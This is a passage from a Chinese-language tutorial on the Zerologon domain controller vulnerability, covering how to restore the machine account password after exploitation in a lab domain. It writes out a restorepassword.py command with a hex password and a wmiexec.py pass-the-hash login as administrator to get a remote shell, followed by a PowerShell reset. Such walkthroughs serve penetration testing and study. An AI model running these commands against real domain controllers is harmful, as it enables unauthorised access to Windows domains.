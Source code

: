         ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2020.png)
        
    2. 方法二：利用密钥 (HEX) 恢复：
        
        ```
        python3 restorepassword.py test.org/WIN-8GA56TNV3MV -target-ip 192.168.21.132 -hexpass 2fb76130ee9ede18551764b9098c1327baf7e5a1760259dfa9de8f98690fd492c43fd7b7a5b0029e2f06b21fc2a29ecd6568f4af7b35f72a2f1756432f7b1765d6add82999303f449655a6453f6f6b5f4fb02c19bd387f5d1deee7668d3e925d566ee1caf4aa607939da6a201b92d93fabbb6c515901d800a841cc0020ee5757901de22d901cebcd59ba34895e300f0f9ee28e8ef029d68fa92d810fa7ee6155ce9edbe69790a1837f9dd376b05e3d1a9a2de7aa59ad71e028c4e1db9adaf766b06acf4e2c3970be66e37bc97b1ac57ffcbcd57b5f81b04b92f3e3a734af0d502223a5e3f5df769c2c9ad88b78cf29d
        ```
        
    3. 方法三：Powershell
        
        首先利用远程执行命令工具 (wmiexec、psexec、smbexec、atexec等) 获取域控 shell，然后利用 powershell 命令重置主机 HASH，注意这种方法并不是恢复原 HASH，而是将 NTDS.DIT 中的凭证以及注册表 /lsass 中的凭证重置 (随机数)：
        
        ```
        python3  wmiexec.py test.org/administrator@192.168.21.132 -hashes :18edd0cc3227be3bf61ce198835a1d97
        
        C:\>powershell -c Reset-ComputerMachinePassword
        ```
        